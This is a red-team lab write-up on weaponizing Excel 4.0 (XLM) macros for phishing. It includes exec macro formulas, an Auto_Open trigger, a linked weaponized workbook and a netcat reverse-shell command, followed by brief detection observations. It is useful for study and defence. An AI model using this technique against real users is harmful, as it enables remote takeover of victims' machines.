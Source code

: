 # Phishing: XLM / Macro 4.0

This lab is based on the research performed by [Stan Hegt from Outflank](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/).

## Weaponization

A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":

![](../../../.gitbook/assets/phishing-xlm-create-new.png)

We can then execute command by typing into the cells:

```text
=exec("c:\shell.cmd")
=halt()
```

As usual, the contents of shell.cmd is a simple netcat reverse shell:

{% tabs %}
{% tab title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endtab %}
{% endtabs %}

Note how we need to rename the `A1` cell to `Auto_Open` if we want the Macros to fire off once the document is opened:

![](../../../.gitbook/assets/phishing-xlm-auto-open.png)

{% file src="../../../.gitbook/assets/excel-4.0-macro-functions-reference-1.pdf" caption="Excel 4.0 Macro Functions Reference.pdf" %}

{% file src="../../../.gitbook/assets/phishing-xlm.xlsm" caption="XLM Phishing.xlsm" %}

## Execution

Opening the document and enabling Macros pops a reverse shell:

![](../../../.gitbook/assets/phishing-xlm-shell-auto-open.gif)

Note that XLM Macros allows using Win32 APIs, hence shellcode injection is also possible. See the original research link below for more info.

## Observations

As usual, look for any suspicious children originating from under the Excel.exe:

![](../../../.gitbook/assets/phishing-xlm-procexp.png)

Having a quick look at the file with a hex editor, we can see a suspicious string `shell.cmd` immediately, which is of course good news for defenders:

![](../../../.gitbook/assets/phishing-xlm-hex.png)

![](../../../.gitbook/assets/phishing-xlm-strings.png)

## References

{% embed url="https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/" %}

